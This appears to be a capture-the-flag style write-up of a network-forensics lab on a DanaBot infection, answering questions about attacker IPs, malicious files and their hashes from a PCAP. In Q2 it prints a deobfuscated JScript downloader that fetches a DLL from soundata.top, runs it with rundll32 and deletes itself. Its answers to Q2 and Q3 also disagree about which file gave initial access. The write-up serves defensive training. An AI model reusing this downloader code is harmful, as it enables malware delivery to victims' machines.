








<center> 
    <h1 style = "blue"> DanaBot </h1>
</center>

## Description

- The SOC team has detected suspicious activity in the network traffic, revealing that a machine has been compromised. Sensitive company information has been stolen. Your task is to use Network Capture (PCAP) files and Threat Intelligence to investigate the incident and determine how the breach occurred.

---

### Q1: Which IP address was used by the attacker during the initial access?

_Ans :62.173.142.148_

- First, we should examine the endpoints in the `PCAP` to identify what went wrong.

  

- We can see that IP address `10.2.14.101` sent more packets than any aother host in the capture. On the other hand, by analyzing the PCAP, we observed a DNS request for `portfolio.serveirc.com` with IP address `62.173.142.148`.

  

- After filtering with `ip.addr == 10.2.14.101 && http.request.method == "GET"` and `ip.addr == 10.2.14.101 && http.response` in the PCAP, we identified the victim's IP address as `10.2.14.101`. This host sends HTTP request to four different servers and receives the corresponding responses. Among them, one response originates from the IP address resolved through the DNS query.

  

- Examine the url `portfolio.serveirc.com` from IP address `62.173.142.148` on `Virustotal`. We can determine that the IP address used by the attacker during initial access is `62.173.142.148`.

  

---

### Q2:What is the name of the malicious file used for initial access?

_Ans :allegato_708.js_

- With the information we have after analysing the PCAP for question 1. We can identify that the malicious file used for initial access is `allegato_708.js`.

  

- Use this [website](https://obf-io.deobfuscate.io/) to deobfuscate the JavaScript contained in the HTTP response packet from the attacker's IP address during initial access. After deobfuscate, we have this script.

```JavaScript
function _0x414360(_0x5c5160) {
  var _0x119065 = '';
  var _0x5a393f = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".length;
  for (var _0x3d45b7 = 0x0; _0x3d45b7 < _0x5c5160; _0x3d45b7++) {
    _0x119065 += "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".charAt(Math.floor(Math.random() * _0x5a393f));
  }
  return _0x119065 + ".dll";
}
var _0x48a85a = _0x414360(0xa);
var _0x44bdd9 = new ActiveXObject("Scripting.FileSystemObject").GetSpecialFolder(0x2) + "\\" + _0x48a85a;
var _0x5da57f = WScript.CreateObject("MSXML2.XMLHTTP");
_0x5da57f.Open("GET", "http://soundata.top/resources.dll", false);
_0x5da57f.Send();
if (_0x5da57f.Status == 0xc8) {
  var _0x3c8952 = WScript.CreateObject("ADODB.Stream");
  _0x3c8952.Open();
  _0x3c8952.Type = 0x1;
  _0x3c8952.Write(_0x5da57f.ResponseBody);
  _0x3c8952.Position = 0x0;
  _0x3c8952.SaveToFile(_0x44bdd9, 0x2);
  _0x3c8952.Close();
  var _0x1e16b0 = WScript.CreateObject("Wscript.Shell");
  _0x1e16b0.Run("rundll32.exe /B " + _0x44bdd9 + ",start", 0x0, true);
}
new ActiveXObject("Scripting.FileSystemObject").DeleteFile(WScript.ScriptFullName);
```

- The recovered JavaScript is a malware downloader. It downloads `resources.dll` from `soundata.top`, saves it to the victim's temporary directory with a randomly generated filename, executes it using `rundll32.exe`, and finally deletes itself.

- Specially, the script includes a command to download another file from different domain, named `resources.dll` from domain `soundata.top` which resolves to IP address `188.114.97.3`

  

---

### Q3: What is the SHA-256 hash of the malicious file used for initial access?

_Ans: 847b4ad90b1daba2d9117a8e05776f3f902dda593fb1252289538acf476c4268_

- We use tool `sha256sum` in linux to answer this question. First we need to find which the malicious file used by the attacker for initial access. The analysis in Q2 shows that the victim downloaded `allegato_708.js` after sending a `GET /login.php` request.

- At this point, we have two files that need to be verified: `login.php` and `allegato_708.js`. Therefore, we export the HTTP objects from the PCAP by selecting `File -> Export Object -> HTTP` .



- After filtered the PCAP, to validate the suspicion about `login.php`, download from the HTTP stream and analyze it.





- The analysis confirms that `login.php is` the malicious file used during the initial access. Therefore, we calculate its SHA-256 hash using the sha256sum tool.

---

### Q4: Which process was used to execute the malicious file?

_Ans: wscript.exe_

- The deobfuscated JavaScript from Q2 reveals that the malware uses `WScript.CreateObject()` to create several ActiveX objects. This indicates that the script is executed by the Windows Script Host `(wscript.exe)`.

---

### Q5: What is the file extension of the second malicious file utilized by the attacker?

_Ans: .dll_

- The second malicious file is `resouces.dll`

---

### Q6: What is the MD5 hash of the second malicious file?

_Ans: e758e07113016aca55d9eda2b0ffeebe_

- To answer this question, we first extract the downloaded file `resources.dll` from the HTTP objects in the PCAP. We then calculate its MD5 hash using the following command `md5sum resources.dll`.
